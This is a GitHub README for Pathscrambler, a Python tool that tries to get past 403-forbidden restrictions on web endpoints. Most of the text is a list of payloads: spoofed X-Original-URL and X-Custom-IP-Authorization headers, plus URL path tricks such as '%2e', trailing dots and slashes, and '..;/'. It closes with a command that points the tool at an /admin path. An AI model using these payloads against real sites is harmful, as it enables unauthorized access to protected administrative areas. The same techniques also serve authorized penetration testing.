 # Pathscrambler

Simple Tool written in python to bypass endpoint restriction currenty supports :

These payloads are directly pulled from twitter. Thanks to the community :)

--------------------------------------------------
```
GET /admin HTTP/1.1
Host: example.com     =>    403 Forbidden


GET /anything HTTP/1.1
Host: example.com
X-original-url: /admin =>   200 OK

GET /anything HTTP/1.1
Host: example.com
X-Custom-IP-Authorization:127.0.0.1

------------------------------------------------


https://www.example.com/path =>  403 Forbidden

https://www.example.com/%2e/path   =>  200 OK

------------------------------------------------

https://www.example.com/admin       => 403

https://www.example.com/.           => 200

https://www.example/admin//         => 200

https://www.example/./admin/./      => 200

------------------------------------------------

https://www.example.com/admin/      => 302

https://www.example.com/admin..;/   => 200
------------------------------------------------
```


Command Example :

python3 pathscrambler.py -u "https://www.example/admin" where /admin returns 403
